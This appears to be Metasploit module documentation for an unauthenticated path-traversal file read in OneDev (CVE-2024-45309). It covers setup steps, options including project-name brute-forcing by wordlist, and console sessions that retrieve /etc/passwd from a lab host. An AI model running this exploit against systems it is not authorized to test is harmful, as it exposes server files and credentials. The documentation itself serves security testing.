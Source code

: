 ## Vulnerable Application

OneDev is a Git Server with CI/CD, kanban, and packages.
This module exploits an unauthenticated arbitrary file read vulnerability (CVE-2024-45309), which affects OneDev versions <= 11.0.8.
This vulnerability arises due to the lack of user-input sanitization of path traversal sequences `..` in the `ProjectBlobPage.java` file.

To exploit this vulnerability, a valid OneDev project name is required. If anonymous access is enabled on the OneDev server, any visitor
can view existing projects without authentication.
However, when anonymous access is disabled, an attacker who lacks prior knowledge of existing project names can use a brute-force approach.
By providing a user-supplied wordlist, the module may be able to guess a valid project name and subsequently exploit the vulnerability.

## Installation

OneDev provides docker images for a quick setup process.
A vulnerable version (`v11.0.8`) can be found [here](https://hub.docker.com/r/1dev/server/tags?name=11.0.8).

Installation instructions can be found [here](https://docs.onedev.io/).

## Verification Steps

1. Install the OneDev application
2. Start msfconsole
3. Do: `use auxiliary/gather/onedev_arbitrary_file_read`
4. Set the `RHOSTS` and `RPORT` options as necessary
5. Set the `TARGETFILE` option with the absolute path of the target file to read

If a valid project name is known:

6. Set the `PROJECT_NAME` option with the known project name
7. Do: `run`
8. If the file exists, the contents will be displayed to the user

If there is no information about existing projects:

6. Set the `PROJECT_NAMES_FILE` option with the absolute path of a wordlist that contains multiple possible values for a valid project name
7. Do: `run`
8. If a valid project name is found, the target file contents will be displayed to the user

## Options

### PROJECT_NAME
A valid OneDev project name is required to exploit the vulnerability. If anonymous access is enabled on the OneDev server,
any visitor can see the existing projects, and collect a valid project name. On the other hand, if anonymous access is disabled,
the user needs to have previous knowledge of a valid project name or use the `PROJECT_NAMES_FILE` option to find one through brute force.

### PROJECT_NAMES_FILE
Absolute path of a wordlist containing multiple possible values for valid project names. Once this option is set,
the module will verify whether a given project exists for each word.


### TARGETFILE
Absolute file path of the target file to be retrieved from the OneDev server. Set as `/etc/passwd` by default.

### STORE_LOOT
If set as `true`, the target file contents will be stored as loot. Set as `false` by default.


## Scenarios

### Example: Known project name or anonymous access enabled on OneDev 11.0.8

```
msf auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAME myproject
PROJECT_NAME => myproject
msf auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```

### Example: Unknown projects with anonymous access disabled on OneDev 11.0.8
```
msf auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAMES_FILE /home/server/wordlist.txt
PROJECT_NAMES_FILE => /home/server/wordlist.txt
msf auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[*] Brute forcing valid project name ...
[+] 192.168.1.10:6610 - Found valid OneDev project name: myproject
[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```
